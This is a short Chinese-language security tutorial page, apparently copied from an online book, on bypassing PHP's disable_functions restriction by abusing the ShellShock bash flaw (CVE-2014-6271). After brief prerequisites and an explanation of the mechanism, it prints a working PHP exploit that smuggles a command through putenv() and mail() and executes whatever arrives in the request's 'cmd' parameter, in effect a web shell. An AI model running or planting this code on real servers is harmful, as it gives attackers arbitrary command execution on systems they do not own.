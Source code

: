 > 原文：[http://book.iwonder.run/安全技术/Disable functions/10.html](http://book.iwonder.run/安全技术/Disable functions/10.html)

## 利用 ShellShock 绕过

**1\. 前提条件**

目标 OS 存在 Bash 破壳（CVE-2014-6271）漏洞 PHP 5.* linux putenv()、mail()可用

**2\. 基本原理**

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行 php 里的某些函数(例如:mail()、imap_mail())能调用 popen 或其他能够派生 bash 子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

**3\. exp**

```
<?php
   function shellshock($cmd) {
  $tmp = tempnam(".","data");
  putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
  mail("a@127.0.0.1","","","","-bv");
  $output = @file_get_contents($tmp);
  @unlink($tmp);
  if($output != "") return $output;
  else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?> 
```

